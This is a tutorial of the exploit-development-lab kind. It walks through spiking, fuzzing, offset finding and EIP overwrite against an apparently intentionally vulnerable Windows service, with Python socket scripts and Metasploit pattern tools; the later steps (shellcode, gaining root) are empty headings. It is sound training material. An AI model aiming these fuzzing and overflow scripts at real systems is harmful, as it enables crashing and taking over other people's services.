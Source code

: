 Open the exe file as admin
Go to Debugger and then File -> Attach and then select the program.

## Step 1: SPIKING (Find vulnerable part of program)

Connect to the vuln application
```bash
nc -nv (ip addr of your windows machine it is running on) (port number): my ip is 10.0.0.52
```
Now throw bunch of charecters in each command and see if any of the commands accepted by the application is vulnerable
TO throw bunch of charecter we use 
```bash
./generic_send_tcp (ip adddr) (port) (some.spk) 
```
some.spk will look like: you can send as many charecter. just try to break the program
```bash
s_readline();
s_string("Some command name to test ");
s_string_variable("0");
```

Look you have to overwrite everything(ESP, EBP) till EIP. EIP will help to get the root access to anything.
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************

## Step 2: Fuzzing (Send bunch of charecter to break the program)
Use the below python code for a fuzzing script to break the specific command.
```bash
#!/usr/bin/python
import sys, socket
from time import sleep

# Define target IP and port
target_ip = '10.0.0.52'
target_port = 9999

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((target_ip, target_port))
		
		s.send(('TRUN /.:/' + buffer).encode())
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
		
	except:
		print("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```
then do
```bash
chmod +x file.py
```
Then run the file

```bash
./file.py
```

************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 3: Finding the offset (At what point it breaks)

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (length from the previous output + some random offset to be safe)
```

Create another python file and use the following code:
```bash
#!/usr/bin/python
import sys, socket

# Define target IP and port
target_ip = '10.0.0.52'
target_port = 9999

offset = "(The value from the previous metasploit command)"

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target_ip, target_port))
	
	s.send(('TRUN /.:/' + offset).encode())
	s.close()
	
except:
	print("Error Connecting to server")
	sys.exit()
```
Make the file executable
```bash
chmod +x file.py
```
Then run the file

```bash
./file.py
```

Copy the Number in front of EIP column in immunity debugger and then use the following command

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q (value in front of EIP)
```

************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 4: Overwriting the EIP
Make another .py file to check EIP final and overwrite it

```bash
#!/usr/bin/python
import sys, socket

# Define target IP and port
target_ip = '10.0.0.52'
target_port = 9999

shellcode = "A" * number from previous meta command + "B" * 4

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target_ip, target_port))
	
	s.send(('TRUN /.:/' + shellcode).encode())
	s.close()
	
except:
	print("Error Connecting to server")
	sys.exit()
```




************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 5: Finding the Bad Charecters
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 6: Finding the right module
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 7: Generating shellcode
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 8: Gain Root
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************




